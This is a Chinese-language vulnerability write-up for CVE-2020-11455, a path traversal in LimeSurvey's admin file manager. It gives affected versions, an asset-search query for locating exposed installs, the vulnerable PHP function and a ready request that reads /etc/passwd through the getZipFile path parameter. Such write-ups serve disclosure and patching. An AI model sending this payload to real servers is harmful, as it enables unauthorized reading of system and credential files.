

# LimeSurvey LimeSurveyFileManager.php 后台任意文件读取漏洞 CVE-2020-11455

## 漏洞描述

LimeSurvey（前称PHPSurveyor）是LimeSurvey团队的一套开源的在线问卷调查程序，它支持调查程序开发、调查问卷发布以及数据收集等功能。
LimeSurvey 4.1.12 + 200324之前版本中的application/controllers/admin/LimeSurveyFileManager.php文件存在路径遍历漏洞。该漏洞源于网络系统或产品未能正确地过滤资源或文件路径中的特殊元素。攻击者可利用该漏洞访问受限目录之外的位置。

## 漏洞影响

LimeSurvey < 4.1.12 + 200324</a-checkbox></br>

## 网络测绘

app="LimeSurvey"</a-checkbox></br>

## 漏洞复现

登录页面



出现漏洞的文件为 `application/controllers/admin/LimeSurveyFileManager.php`


```php {14-19}
public function downloadFiles() {
        App()->loadLibrary('admin.pclzip');
        
        $folder = basename(Yii::app()->request->getPost('folder', 'global'));
        $files = Yii::app()->request->getPost('files');

        $tempdir = Yii::app()->getConfig('tempdir');
        $randomizedFileName = $folder.'_'.substr(md5(time()),3,13).'.zip';
        $zipfile = $tempdir.DIRECTORY_SEPARATOR.$randomizedFileName;
        $arrayOfFiles = array_map( function($file){ return $file['path']; }, $files);
        $archive = new PclZip($zipfile);
        $checkFileCreate = $archive->create($arrayOfFiles, PCLZIP_OPT_REMOVE_ALL_PATH);
        $urlFormat = Yii::app()->getUrlManager()->getUrlFormat();
        $getFileLink = Yii::app()->createUrl('admin/filemanager/sa/getZipFile');
        if($urlFormat == 'path') {
            $getFileLink .= '?path='.$zipfile;
        } else {
            $getFileLink .= '&path='.$zipfile;
        }

        $this->_printJsonResponse(
            [
                'success' => true,
                'message' => sprintf(gT("Files are ready for download in archive %s."), $randomizedFileName),
                'downloadLink' => $getFileLink ,
            ]
        );
    }
```

路由为: `admin/filemanager/sa/getZipFile`, 这里传入参数 path 到方法 `getZipFile()`中


这里通过 readfile方法 读取文件，登录后台后发送请求

```php
/index.php/admin/filemanager/sa/getZipFile?path=/../../../../../../../etc/passwd
```

